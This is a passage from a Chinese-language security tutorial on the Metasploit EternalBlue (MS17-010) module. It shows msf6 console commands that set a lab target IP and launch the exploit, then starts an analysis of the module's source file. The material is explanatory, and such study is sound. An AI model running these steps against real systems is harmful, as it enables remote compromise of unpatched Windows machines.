 设置远程目标IP

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.1.15
```

攻击

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
or
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

[![](assets/1701606737-d80868fec942b2eb353ef9050090efe0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234559-94dee2d6-7cbb-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17_010_eternalblue.rb)

本地，/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb

*   exploit 函数，攻击入口
